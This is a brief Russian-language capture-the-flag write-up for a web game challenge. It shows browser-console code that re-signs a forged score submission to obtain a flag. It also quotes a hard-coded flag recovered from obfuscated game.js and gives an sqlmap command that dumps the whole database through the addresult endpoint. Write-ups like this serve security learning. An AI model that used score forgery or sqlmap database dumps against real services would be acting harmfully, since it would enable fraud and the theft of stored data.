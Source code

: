 1. Находим код в game.js, который передает результаты игры.

2. После отправки результата игры, что бы заменить количество очков на 99999 выполняем в консоле  браузера:
```
var b1 = aY[b('0x1f')][0x0][b('0x20')];
bI=99999;
str = bI + b1 + b0;
sign = b3(str);
var b2 = '/addresult?email=' + encodeURI(b1) + b('0x21') + encodeURI(b0) + '&score=' + encodeURI(bI) + b('0x22') + encodeURI(sign);
```
b2 подставляем в http://easygame.ctf2019.rocks/addresult? и получаем флаг

3. Находим дополнительный флаг  в game.js
```
function be() {
    var bf = 'T';
    var bg = '{';
    var bh = 'C';
    var bi = '}';
    var bj = 'F';
    var bk = 'G';
    var bl = 'W';
    var bm = '6FF2866491F6CD6';
    var bn = b('0x2e');
    console[b('0x8')](bl + bk + bh + bf + bj + bg + bm + bn + bi);
}
```

4. Еще один дополнительный flag находим с помощью sqlmap
```
sqlmap -u http://easygame.ctf2019.rocks/addresult?email=p --dump-all --keep-alive --dbms=sqlite
```
